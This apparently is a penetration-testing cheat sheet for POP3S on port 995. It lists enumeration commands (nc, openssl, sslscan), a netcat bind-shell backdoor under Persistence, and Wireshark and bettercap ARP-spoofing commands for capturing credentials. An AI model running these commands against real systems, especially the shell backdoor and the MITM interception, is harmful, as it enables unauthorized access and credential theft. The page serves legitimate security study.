 ### Service Enumeration
- **Tool:** [[NetCat]]
    ```bash
    nc <target_ip> 995
    ```
- **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

### Certificate Information Gathering
- **Tool:** [[OpenSSL]]
    ```bash
    openssl s_client -connect <target_ip>:995 -showcerts
    ```
- **Description:** Retrieves and displays the server’s certificate chain, useful for identifying the certificate authority and the strength of the encryption.

## Initial Access

### Exploiting Weak SSL/TLS Configurations
- **Tool:** [[SSLScan]]
     ```bash
     sslscan <target_ip>:995
     ```
 - **Description:** Identifies weak SSL/TLS configurations that could be exploited to intercept or decrypt traffic.

## Persistence

### Maintain Access via POP3S Backdoor
- **Tool:** [[NetCat]]
     ```bash
     nc -l -p 995 -e /bin/sh
     ```
 - **Description:** A backdoor can be maintained on the POP3S port if the service is improperly secured.

## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port <port>"
    ```
- **Description:** Capture traffic and extract plaintext credentials.

### Man-in-the-Middle (MITM) Attack
- **Tool:** [[BetterCap Cheat Sheet]]
	```bash
	bettercap -iface <interface> -T <target_ip> --proxy
	```
- **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.
